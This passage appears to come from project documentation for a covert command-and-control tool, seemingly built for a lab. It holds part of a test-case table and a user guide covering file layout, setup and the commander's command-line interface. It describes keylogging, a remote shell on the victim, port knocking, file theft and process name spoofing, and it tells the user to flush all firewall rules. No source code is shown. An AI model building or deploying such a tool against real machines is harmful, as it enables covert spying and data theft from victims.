| 14  | Transferring keylog file with no keylogging done                                       | The system should produce an error message and not crash. The system should stay operational.                                                         |
| 15  | Uninstalling malware from the victim machine                                           | The malware should be removed from the victim’s filesystem.                                                                                           |
| 16  | Port knocking on victim                                                                | The commander should be able to port knock on the victim and start a session.                                                                         |
| 17  | Port knocking takes longer than deadline                                               | The victim’s port knocking system times out and resets.                                                                                               |
| 18  | Disconnecting from the victim                                                          | The commander should be able to disconnect and port knock again to start a new session.                                                               |
| 19  | Sending a file from commander to victim                                                | The commander should put the file in the desired location and overwrite if exists.                                                                    |
| 20  | Sending a non-existent file to victim                                                  | The system should produce an error message and not crash.                                                                                             |
| 21  | Sending a file to a non-existent directory on victim                                   | The system should produce an error message and not crash.                                                                                             |
| 22  | Sending a directory instead of a file to victim                                        | The system should produce an error message and not crash.                                                                                             |
| 23  | Sanity checking file sending (invalid/empty input)                                     | The system should produce an error message and not crash.                                                                                             |
| 24  | Sending a file from victim to commander                                                | The command should be able to fetch a file from the victim.                                                                                           |
| 25  | Sending non-existent file from victim                                                  | The system should produce an error and not crash.                                                                                                     |
| 26  | Sending file from victim to non-existent directory                                     | The system should produce an error. The system should stay operational.                                                                               |
| 27  | Sending a directory from victim to commander                                           | The system should produce an error message and not crash.                                                                                             |
| 28  | Sanity checking file receiving (invalid/empty input)                                   | The system should produce an error. The system should stay operational.                                                                               |
| 29  | Running commands on the remote shell                                                   | The commander should be able to run any Bash commands on the victim.                                                                                  |
| 30  | Cleaning the commander’s screen                                                        | The system should clean the commander’s screen.                                                                                                       |
| 31  | Showing help menu by ‘h’ or ‘help’                                                     | The system should display the help menu.                                                                                                              |
| 32  | Flushing stale inbound packets by ‘f’ or ‘flush’                                       | The system should pop out and discard stale packets.                                                                                                  |
| 33  | Sanity check CLI with invalid tokens                                                   | The system should produce an error. The system should stay operational.                                                                               |
| 34  | Wrong IP in config file                                                                | The system should produce an error and exit.                                                                                                          |
| 35  | Wrong MAC address in config file                                                       | The system should produce an error and exit.                                                                                                          |
| 36  | Wrong port in config file                                                              | The system should produce an error and exit.                                                                                                          |
| 37  | Wrong network adapter in config file                                                   | The system should produce an error and exit.                                                                                                          |
| 38  | Invalid config fields (IP, MAC, port)                                                  | The system should produce an error and exit.                                                                                                          |
| 39  | Invalid config format or non-existent config file                                      | The system should produce an error and exit.                                                                                                          |
| 40  | Flooding commander’s port with RST+ACK                                                 | Should not interfere if attacker isn't the victim.                                                                                                    |
| 41  | Flooding victim’s port with SYN                                                        | Should not interfere if attacker isn't the commander.                                                                                                 |
| 42  | Victim dead before port knocking complete                                              | The commander should time out and not crash.                                                                                                          |
| 43  | Victim dies mid-session                                                                | The commander

### User Guide
#### Directory Organization
The structure of the source directory is as follows: 
./c2/ 
	./c2/commander.go
	./c2/victim.go
	./c2/commander.json
	./c2/victim.json
	./c2/go.mod
	./c2/so.sum
	./c2/build.sh
	./c2/ctrl/
./c2/beacon/beacon.go	
./c2/beacon/cli.go
	./c2/beacon/knock.go
	./c2/beacon/netutil.go
	./c2/beacon/commander_beacon.go
	./c2/beacon/victim_beacon.go
	./c2/util/
		./c2/util/fs.go
		./c2/util/psname.go
		./c2/util/keylogger.go
		./c2/util/rshell.go
		./c2/util/session.go

The following table explains the purpose of each file and directory within the source directory: 

| File/Directory Name | File/Directory Purpose|
|---------------------|-----------------------|
| c2 directory        | c2 directory is the main directory that contains all the source code of the project. |
| commander.go file   | commander.go file implements the logic of the commander. |
| commander.json      | commander.json file must be present in the same directory as the commander when executing the commander. commander.json file provides routing information to help commander send and receive packets to and from the victim. It includes service port number, IPv4 address, MAC address of the commander and the victim. And commander’s network adaptor that has been assigned the IPv4 address of the commander. | 
| victim.json         | victim.json file must be present in the same directory as the victim when executing the victim. victim.json file provides routing information to help commander send and receive packets to and from the commander. It includes service port number, IPv4 address, MAC address of commander and the victim. And the victim’s network adapter that has been assigned the IPv4 address of the victim.|
| victim.go file      | victim.go file implements the logic of the victim. |
| go.mod file         | go.mod file declares the Go module's name and lists all the required external modules, along with their specific versions. go.mod also specifies the Go being used. |
| go.sum file         | go.sum file is a checksum of all external modules being used. Basically, go.sum ensures integrity and security of the module dependencies by storing cryptographic checksums. |
| build.sh file       | A Bash shell script that compiles commander.go and victim.go |
| beacon.go file      | beacon.go file implements the Beacon protocol discussed earlier in this document | 
| cli.go file         | cli.go file implements the command line interface commander uses to interact with the program | 
| knock.go file       | knock.go file handles port knocking functionality. | 
| netutil.go file     | netutil.go implements the necessary components needed for networking including the Sender and Receiver components discussed earlier | 
| commander_beacon.go file | commander_beacon.go file implements the commander’s side of the Beacon protocol.  | 
| victim_beacon.go file | victim_beacon.go file implements the victim’s side of the Beacon protocol | 
| fs.go file | fs.go file handles file transfer and file watching functionalities. | 
| keylogger.go file | keylogger.go file implements the keylogging functionality. | 
| psname.go file | psname.go file handles process name spoofing functionality.  | 
| rshell.go file | rshell.go file implements the remote shell functionality  | 
| session.go file  | session.go file implements the TCP channel that is used to facilitate the file transfer, file/directory watching, keylogging, and remote shell functionalities | 

#### Requirements
    • Both the victim machine and the commander machine must be Linux/amd64.
    • Both the victim machine and the commander machine must have libnet-dev and libpcap-dev Linux libraries installed.
    • Go 1.23 and above is required to compile the program.
    • This program only works on Little Endian machines. 
    • Remove all iptables and nftables rules before running the program.
    • Commander and victim must be both connected to a private network.

#### Environment Setup
Run the following commands to prepare environment before compiling and running the program:

sudo apt install libpcap-dev libnet-dev iptables -y
sudo iptables -F
sudo apt install go 
cd ./c2
go mod download

#### Compiling 
Run the following to compile the victim and the commander:

go build commander.go
go build victim.go 

Or alternatively run the provided build.sh to compile both the victim and the commander as follows:

./build 

#### Running Commander
Ensure commander.json and commander executable are both present in the same directory. Run as follows:

sudo ./commander 

#### Running Victim
Ensure victim.json and victim executable are both present in the same directory. Run as follows:

sudo ./victim

#### commander.json and victim.json
As mentioned earlier, commander.json is required to be in the same directory as the command executable and the same rules apply to the victim. The structure of commander.json amd victim.json is as follows: 

{
	"IfaceStr": "<network adaptor to be used>",
	"SrcMACStr": "<MAC address of network adaptor>",
	"DstMACStr": "<MAC address of other side's network adaptor>",
	"SrcIPStr": "<IPv4 address of network adaptor>",
	"DstIPStr": "<IPv4 address of other side's network adaptor>",
	"SrcPortInt": 	"<port number>",
	"DstPortInt": 	"<other side's port number>"
}

#### Running Commander Example

#### Running Victim Example

#### Commander CLI
Enter ‘h’ or ‘help’ to see the help menu has follows:

Enter ‘c’ or ‘clear’ to clear the commander's screen.

If the error message, “parseRSTACK failed: key corrupted” is shown, the commander and the victim are out of synchronisation, and the commander has one or more state packets from the victim in its buffer. Enter ‘f’ or ‘flush’ to flush out the stale packets.

